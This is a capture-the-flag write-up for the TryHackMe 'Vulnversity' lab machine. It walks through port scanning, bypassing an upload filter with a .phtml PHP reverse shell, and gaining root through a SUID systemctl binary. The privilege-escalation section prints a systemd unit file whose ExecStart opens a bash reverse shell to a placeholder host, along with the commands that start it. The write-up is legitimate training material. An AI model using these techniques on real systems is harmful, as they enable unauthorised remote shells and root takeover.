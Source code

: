 # CTF - Vulnversity / Tryhackme

# 1. Recon

Nmap result :

| PORT          | STATE SERVICE | REASON                                                                     | VERSION                                                                     |
|---------------|---------------|----------------------------------------------------------------------------|-----------------------------------------------------------------------------|
| 21/tcp        | open          | ftp                                                                        | syn-ack ttl 63 vsftpd 3.0.3                                                 |
| 22/tcp        | open          | ssh                                                                        | syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0) |
| 139/tcp       | open          | netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)     |                                                                             |
| 445/tcp       | open          | netbios-ssn syn-ack ttl 63 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP) |                                                                             |
| 3128/tcp open | http-proxy    | syn-ack ttl 63 Squid http proxy 3.5.12                                     |                                                                             |
| 3333/tcp open | http          | syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))                              |                                                                             |

First, on port 21, we can see an ftp server running.
Trying to connect to it anonymously failed.

On port, 22, an ssh server is running but we don't have any creds.

port 139/445 run a samba server, using the enum4linux script, we can discover a new user :
-> S-1-22-1-1000 Unix User\bill (Local User)



# 2. Web

The main website is running on port 3333, it's a replication of a university website.
Using gobuster, we can find thoses directories :

| Name           | Status                                                            |
|----------------|-------------------------------------------------------------------|
| /images        | (Status: 301) [Size: 318] [--> http://10.10.81.62:3333/images/]   |
| /css           | (Status: 301) [Size: 315] [--> http://10.10.81.62:3333/css/]      |
| /js            | (Status: 301) [Size: 314] [--> http://10.10.81.62:3333/js/]       |
| /fonts         | (Status: 301) [Size: 317] [--> http://10.10.81.62:3333/fonts/]    |
| /internal      | (Status: 301) [Size: 320] [--> http://10.10.81.62:3333/internal/] |
| /server-status | (Status: 403) [Size: 301]                                         |                                       |

/internal looks interresting.

On this page, we can upload a file.
Trying using a .php, .jpg file will throw an error. "Extension not allowed"

Using burp suite, we can try to find a bypass to upload a php reverse shell on the website.
When trying somes extensions, we can find that ".phtml" can go throught the filter.
In the /internal directory, gobuster find the /uploads directory where we can trigger our php script.

With a listener in place, we can catch our reverse and connect in the www-data user.

# 3. Exploration

Navigating on the system, we can access the home directory of the bill user. Where we can find the user.txt

It's now time to search for a privesc. After investigating crontab, sudo -l, ... we can find interesting SUID files

> find / -perm -u=s 2> /dev/null

| Path                  |
|-----------------------|
| /usr/lib/squid/pinger |
| /bin/systemctl        |

Googling /bin/systemctl suid, we can find on GTFObins that systemctl can be use to gain root access.
We will create a new service, which will execute a reverse shell, and using the systemctl with SUID bit, we will start the service, which
will send us a root shell.



# 4. Privesc

We can use the method A1vinSmith : https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740
First, we create our evil service

In a file called evil.service : 

```
[Unit]
Description=Getting root
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/YourIP/YourPort 0>&1'
[Install]
WantedBy=multi-user.target
```

The ExecStart parameter is where you can set your command.
Setup a listener then enable the servic
If the path to systemctl is different, modify it.
> /bin/systemctl enable /path/to/your/service/evil.service

> /bin/systemctl start evil



# 5. Root

Now we have root, we can access the /root/root.txt and get the flag.





